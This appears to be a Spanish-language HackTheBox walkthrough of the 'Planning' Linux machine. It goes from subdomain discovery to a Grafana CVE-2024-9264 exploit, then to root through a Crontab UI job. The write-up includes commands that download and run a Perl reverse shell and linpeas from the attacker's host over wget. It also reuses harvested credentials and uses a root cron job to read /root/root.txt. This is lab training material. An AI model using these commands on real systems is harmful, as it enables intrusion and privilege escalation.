# Planning

**Platform:** HackTheBox  
**Difficulty:** Easy  
**IP:** 10.10.11.68

---

## Información Inicial
- **Objetivo:** Obtener las dos banderas tanto del usuario como del administrador del sistema Linux.  
- **Herramientas iniciales:** `nmap`, `gobuster`, `python3`, `wget`, `netcat`, `ssh`, `crontab`,`linpeas.sh`.

---

Primero realizamos un escaneo básico con `nmap` para identificar los puertos abiertos y servicios activos:
```bash 
nmap 10.10.11.68

nmap -sC -sV -p 22,80 -T4 10.10.11.68
```


Tras ingresar el nombre de host en el fichero /etc/hosts, ingresamos en el sitio web del puerto 80 y tratamos de buscar vulnerabilidades o errores.


Tras realizar numerosos escaneos como de directorios, ficheros, versiones, etc, obtenemos un resultado curioso en la búsqueda de subdominios.
Tenemos un servicio Grafana ejecutándose en la máqunia víctima.

```bash
gobuster vhost -u http://planning.htb -w /usr/share/wordlist/SecLists/Discovery/DNS/combined_subdomains.txt -t 50 --append-domain
```



Añadiremos `grafana.planning.htb` al fichero /etc/hosts para acceder al servicio a través de la URL. 

Echando un vistazo simple al sitio web, apreciamos la versión de Grafana en la parte inferior (11.0.0).



Al investigar por internet nos percatamos de un CVE relacionado, con un exploit que nos podría dar acceso.



Entre otras cosas, comprobamos las versiones de programas que podemos utilizar para establecer una reverse shell (PHP, Pyhton, Ruby, PERL...) y nos devuelve que PERL sí que está instalado.

```bash
python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c 'perl --version' http://grafana.planning.htb
```



Una reverse-shell que suelo usar para PERL es la de pentestmonkey (https://pentestmonkey.net/tools/web-shells/perl-reverse-shell).

Abrimos un servidor Python donde tengamos el fichero en PERL para compartirlo y poder descargarlo desde la máquina víctima.

```bash
python -m http.server
```



Aprovechando la explotación del CVE que hemos realizado antes, descargaremos con Wget el fichero PERL en la máquina víctima y lo ejecutaremos una vez tengamos Netcat escuchando en la terminal.

```bash
nc -lvnp 4444

python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c 'wget http://10.10.14.109:8000/perl-reverse-shell.pl' http://grafana.planning.htb

python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c 'perl perl-reverse-shell.pl' http://grafana.planning.htb
```



En la terminal recibimos una shell como usuario root, pero al investigar los directorios personales y usuarios no encontramos nada relevante.



Intentamos indagar un poco más con la herramienta `linpeas.sh`, de manera que con un servidor Python lo compartiremos y lo descargaremos y ejecutaremos en la víctima.

En la máquina local:
```bash
python -m http.server
```

El la máquina víctima:
```bash
wget http://10.10.14.109:8000/linpeas.sh

chmod a+x linpeas.sh

./linpeas.sh
```



La herramienta linpeas.sh nos indica que en las variables de entorno hay unas credenciales. Puesto que no obtenemos nada más relevante, trataremos de entrar por SSH a la IP de la máquina víctima, suponiendo que estamos dentro de un contenedor.

Con el usuario `enzo` si que encontramos la primera bandera en el directorio personal del usuario.
```bash
ssh enzo@10.10.11.68
```



Vamos a buscar otros ficheros ocultos con la misma herramienta (linpeas.sh) de manera que la subiremos a esta máquina.

En la máquina local:
```bash
python -m http.server
```

El la máquina víctima:
```bash
wget http://10.10.14.109:8000/linpeas.sh

chmod a+x linpeas.sh

./linpeas.sh
```



El resultado del escaneo es un fichero en /opt/crontabs/crontab.db que contiene una base de datos de un servicio crontab, incluyendo unas credenciales. 



Tras un rato de investigación, la clave podría estar en un servicio Crontab UI en un puerto de la máquina. Comprobamos los puertos abiertos y, según la documentación oficial, Crontab UI por defecto se ejecuta en el puerto 8000.

```bash
netstat -tuln
```



Para comprobarlo vamos a abrir un túnel SSH para que el puerto 8000 de la máquina víctima se refleje en el puerto 8000 de la máquina local.

```bash
ssh -L 8000:127.0.0.1:8000 enzo@planning.htb
```



Al entrar, vemos un panel de control de Cronjob UI desde el que podemos crear una nueva tarea. Ya que estas se ejecutarán como root, podemos hacer que copie el contenido del fichero que contiene la bandera de administrador en otro fichero en /tmp con permisos de lectura para todos, y así podremos verla sin necesidad de entrar a la sesión de root.

```bash
cat /root/root.txt > /tmp/flag.txt
```



Símplemente nos queda ejecutar la tarea manualmente y buscar el fichero flag.txt en el que encontraremos la bandera.




